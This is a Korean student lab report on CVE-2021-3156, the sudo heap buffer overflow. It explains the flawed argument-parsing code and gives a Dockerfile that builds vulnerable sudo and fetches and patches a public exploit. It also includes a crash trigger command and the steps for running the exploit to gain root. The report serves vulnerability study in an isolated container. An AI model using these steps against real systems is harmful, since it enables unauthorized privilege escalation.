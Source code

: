 # CVE-2021-3156
| 화이트햇스쿨 3기 35반 김동욱(7031)
----
### 요약
**CVE-2021-3156**
CVE-2021-3156은 sudo 명령어의 특정 함수에서 발생하는 힙 버퍼 오버플로우 관련 취약점입니다.

이 취약점은 사용자 입력의 이스케이프(`\`)를 처리하는 과정에서 버퍼 오버플로우가 발생하여 트리거됩니다. 
크게 Privilege Escalation(권한 상승), Arbitary Code Execution(임의 코드 실행)으로 이어질 수 있습니다.

2021년 1월 경 Qualys의 연구팀에 의해 발견되었으며 2011년 7월 이후의 대부분의 리눅스 배포판에 영향을 미칩니다. 

본 보고서에서도 이에 영향을 받는 베이스 이미지인 Ubuntu 20.04 버전의 이미지를 사용하였습니다.

**CVE 등록 정보**
- CVSS: 7.8(높음)   
- 공격 벡터: 로컬
- 공격 복잡성: 낮음
- 필요 권한: 낮음

**발생하는 이유**

`sudo`와 함께 사용되는 `sudoedit` 명령어에서 사용자 입력 파싱 로직을 실행하는 함수인 `set_cmnd()`에서 힙 버퍼 오버플로우가 발생합니다.
아래는 해당 취약점이 발생하는 코드입니다.
```c
for (size = 0, av = NewArgv + 1; *av; av++)
size += strlen(*av) + 1;
if (size == 0 || (user_args = malloc(size)) == NULL) {
    ...
}
...
    *to++ = *from++;
```
- 인자 값 복사 이전에 `size` 변수가 확정되어 힙 버퍼 오버플로우에 취약
- 사용자 입력(argv)을 `to` 변수에 이스케이프 처리하여 복사하지만 `\\`와 같은 입력이 들어오면 `to`와 `from`의 길이가 맞지 않게 됨 -> 계속된 복사 작업으로 인한 잘못된 메모리 접근이 발생함
  
이로 인해 공격자는 힙 공간에 악의적인 값을 삽입하는 것이 가능해집니다.
****
### 환경 구성
CVE-2021-3156은 아직 vulhub에 올라와있지 않은 것으로 확인하였습니다.
따라서 아래와 같이 `dockerfile`을 구성하였습니다.
- 취약한 베이스 이미지인 `ubuntu:20.04`를 사용
- 공개된 github PoC 코드 사용
  - https://github.com/CyberCommands/CVE-2021-3156.git
  - 컨테이너 내의 환경과 일부 맞지 않는 부분이 있어 수정함
- sudo 저장소에서 취약한 버전의 sudo를 다운로드받아 이미지 내에서 빌드
```Dockerfile
# CVE-2021-3156

# 베이스 이미지 설정
FROM ubuntu:20.04
ARG DEBIAN_FRONTEND=nointeractive

# 필요한 패키지 설치
RUN apt-get update -y
RUN apt-get install -y build-essential \
                       make wget whois \
                       gdb git python3-pip \
                       libssl-dev libffi-dev \
                       python3-dev sudo

# 취약한 sudo 빌드 및 설치
WORKDIR /root
RUN wget https://www.sudo.ws/dist/sudo-1.8.31.tar.gz
RUN tar -xf sudo-1.8.31.tar.gz && \
    cd sudo-1.8.31/ && \
    mkdir build && cd build && \
    ../configure --enable-env-debug && \
    make -j && make install

# 테스트 유저 생성 및 설정
RUN useradd -ms /bin/bash Gayang2902
WORKDIR /home/Gayang2902
COPY ./vuln_check /home/Gayang2902/vuln_check

# 공개된 PoC clone 및 컨테이너 환경에 맞게 일부 수정하여 빌드
## 1. argv 변수 수정
## 2. sudoedit 경로 수정
RUN git clone https://github.com/CyberCommands/CVE-2021-3156.git && \
    cd CVE-2021-3156 && \
    sed -i 's|char\* argv\[\] = {[^}]*}|char* argv[] = { "sudoedit", "-s", "AAAAA", NULL };|' exploit.c && \
    sed -i 's|/usr/bin/sudoedit|/usr/local/bin/sudoedit|g' exploit.c && \
    make && \
    ln -s /home/Gayang2902/CVE-2021-3156/exploit /home/Gayang2902/exploit

USER Gayang2902

CMD [ "bash" ]

```
**이미지 빌드**
```bash
docker build -t <image:tag> .
```

**취약한 환경이 구성되었는지 확인**
```bash
$ docker run --rm <image:tag> ./vuln_check
# 아래와 같이 출력되면 취약한 환경이 잘 구성된 것
./vuln_check: line 2:     8 Segmentation fault      sudoedit -s '\' `perl -e 'print "A" x 10000'`
```
### 실행
```bash
$ docker run --rm --it <image:tag>
$ cd CVE-2021-3156 && ./exploit
```
### 익스플로잇 시연
1. **이미지 빌드**
![alt text](images/image_build.png)
2. **취약한 버전으로 빌드되었는지 확인**
![alt text](images/vuln_check.png)
3. **PoC 시연**
![alt text](images/image.png)
### 정리
위의 과정으로 빌드를 완료하고 PoC를 실행시키면 취약점을 이용하여 sudo 그룹에 속해있거나 sudoers에 등록되어 있지 않은 일반 사용자에서 root 계정으로 권한 상승이 되는 것을 확인할 수 있습니다.